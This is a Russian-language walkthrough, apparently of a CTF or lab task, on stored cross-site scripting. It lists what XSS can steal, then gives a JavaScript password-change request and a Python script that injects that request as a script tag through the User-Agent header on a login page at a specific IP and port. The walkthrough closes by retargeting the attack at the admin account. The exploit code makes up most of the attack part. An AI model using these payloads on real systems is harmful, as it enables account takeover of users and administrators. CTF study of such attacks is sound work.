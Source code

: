 ##Есть два стула

1. **Кража cookies**: Скрипт может быть направлен на чтение cookies браузера пользователя, включая сессионные токены, которые затем отправляются злоумышленнику. Используя эти данные, злоумышленник может подделать сессию пользователя и получить доступ к его аккаунту.
    
2. **Phishing**: Вредоносный скрипт может перенаправить пользователя на поддельную страницу входа, где жертва, не подозревая обмана, введет свои учетные данные, которые будут перехвачены злоумышленником.
    
3. **Манипуляции с DOM**: Злоумышленник может изменять содержимое веб-страницы в реальном времени, вставляя вредоносные формы или изменяя существующие, чтобы перехватывать данные, вводимые пользователем.
    
4. **Кража токенов аутентификации**: Многие веб-приложения используют токены для подтверждения действий пользователя. XSS может быть использован для кражи этих токенов, позволяя злоумышленнику выполнять действия от имени пользователя.

Давайте рассмотрим 2 варианта проведения таких атак.

# Первый способ (такое)
Залогинимся и попробуем отправить с помощью Javascript запрос о смене пароля

````javascript 
fetch('/index.php', {
  method: 'POST', // Указание на то, что это POST-запрос
  headers: {
    'Content-Type': 'application/x-www-form-urlencoded', // Тип контента, отправляемого на сервер
  },
  body: 'newpassword=1234' // Данные, которые нужно отправить
})
.then(response => {
  if (response.ok) {
    return response.text(); // или response.json(), если ожидается JSON-ответ
  }
  throw new Error('Network response was not ok.');
})
.then(data => console.log(data)) // Обработка данных, полученных в ответе
.catch(error => console.error('There was a problem with your fetch operation:', error));
````
F12 -> console
Вставляем и смотрим. При след логине пароль и в правду поменяется на 1234, отлично. Давайте модифицируем наш скрипт для того, чтобы оправлять данный код в payload.
````python 
import requests

newpassword = "<script>fetch('/index.php', {method: 'POST', headers: {'Content-Type': 'application/x-www-form-urlencoded',},body: 'newpassword=12345'})</script>"


user = "asdf" 
headers = {'User-Agent': newpassword}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
#print(response.text)
````
Все прошло замечательно. При просмотре страницы, у аккаунта меняется пароль. Поменяем ```user="asdf"``` на ```user=admin``` и оправим.
